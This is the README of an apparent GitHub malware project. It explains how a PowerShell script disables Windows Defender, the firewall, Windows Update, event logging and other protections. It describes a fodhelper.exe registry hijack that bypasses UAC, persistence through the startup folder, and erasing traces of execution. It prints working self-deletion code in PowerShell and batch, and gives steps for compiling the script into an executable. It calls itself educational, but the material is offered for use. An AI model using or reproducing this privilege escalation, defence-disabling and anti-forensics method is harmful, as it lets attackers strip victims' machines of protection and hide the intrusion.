 > [!CAUTION]
> ## MALWARE AHEAD! IF YOU DO NOT KNOW WHAT THAT IS, LEAVE.
<div align=center>

<img src="https://github.com/isPique/Fuck-Windows-Security/blob/main/disclaimer.png" width="700">

</div>

<br>

> [!WARNING]
> ***This script was NOT optimized to shorten and obfuscate the code but rather intended to have as much readability as possible for new coders to learn!***

# How does it work?

* Well, if we want to disable Windows's security features, we can use **Registry Editor** for that. However, we will need administrative privileges to access regedit. Like who's gonna run a malware as administrator?

  ## Privilege Escalation

  - In Windows, when a user is requesting to open **“Manage Optional Features”** in settings, a process is created under the name **“fodhelper.exe”**. This process is running with the highest privileges without any permissions being asked directly when executed because it's a trusted binary and signed by Microsoft.

  - The following checks are performed in the registry upon start of **fodhelper.exe**:

  > ```plaintext
  > HKCU:\Software\Classes\ms-settings\shell\open\command
  > HKCU:\Software\Classes\ms-settings\shell\open\command\DelegateExecute
  > HKCU:\Software\Classes\ms-settings\shell\open\command\(default)
  > ```

  - Since these registry entries doesn’t exist, we can create this structure in the registry to manipulate fodhelper to execute our script with higher privileges bypassing the **User Account Control (UAC)**.

## Features that the script will disable:
  ```bash
  > All The Windows Defender Features (including SmartScreen)
  > Windows Firewall
  > Windows Update
  > System Restore
  > Task Manager
  > Command Prompt (Cmd)
  > Remote Desktop
  > User Account Control (UAC)
  > Windows Security Center
  > Windows Error Reporting
  > Remote Assistance
  > Windows Update Medic Service
  > Background Intelligent Transfer Service (BITS)
  > Windows Script Host
  > Event Logging
  > Windows Security Notifications
  > Windows Search
  > Automatic Maintenance
  > Virtualization Based Security
  ```

## Self Replication and Self Destruction

* After disabling the Windows Security features, the script will copy itself to the startup folder with a random file name for persistence and will delete all traces of its execution.

* However, when the script is compiled and executed as an ".exe" file, it becomes a process, and we can no longer modify or delete the file itself due to the **[File Locking Mechanism](https://en.wikipedia.org/wiki/File_locking)**.

* Since we couldn't delete the script itself after it has done its job, we have 2 alternatives to delete it:

```powershell
$ScriptPath = $MyInvocation.MyCommand.Path
$ExePath = (Get-Process -Id $PID).Path
$FullPath = if ($ScriptPath) { $ScriptPath } else { $ExePath }

# First alternative: Start another process to delete it
Start-Process powershell.exe -ArgumentList "-NoProfile -Command `"Remove-Item -Path '$FullPath' -Force -ErrorAction SilentlyContinue`"" -WindowStyle Hidden

# Second alternative: Create a temporary batch script to delete it
$tempScript = [System.IO.Path]::Combine([System.IO.Path]::GetTempPath(), [System.IO.Path]::GetRandomFileName() + ".cmd")
$cmdContent = "chcp 1252" + [Environment]::NewLine + "ping 127.0.0.1 -n 2 > nul" + [Environment]::NewLine + "del /q /f `"$FullPath`"" + [Environment]::NewLine + "del /q /f %~f0"
Set-Content -Path $tempScript -Value $cmdContent
Start-Process cmd.exe -ArgumentList "/c $tempScript" -WindowStyle Hidden
```
> [!NOTE]
> ***The first alternative has been used in the script.***

# How to convert the script into an executable?

**1. Open PowerShell as administrator**

**2. Install [PS2EXE](https://www.advancedinstaller.com/convert-powershell-to-exe)**

  ```powershell
  Install-Module ps2exe
  ```

**3. Open the GUI**

  ```powershell
  win-ps2exe
  ```

> [!IMPORTANT]
> #### Once the script has been converted to an .exe file, it can be flagged as:
> * [**Trojan:Win32/AgentTesla!ml**](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?name=Trojan%3AWin32%2FAgentTesla!ml&threatid=2147760503)
> * [**Trojan:Win32/Bearfoos.A!ml**](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?name=Trojan%3AWin32%2FBearfoos.A!ml&threatid=2147731250)
> * [**Trojan:Win32/Wacatac.B!ml**](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?name=Trojan%3AWin32%2FWacatac.H!ml&threatid=2147814523)

<hr>

> [!TIP]
> ### If you executed the script, you can also run the `Enable.reg` file to repair the damage it caused.
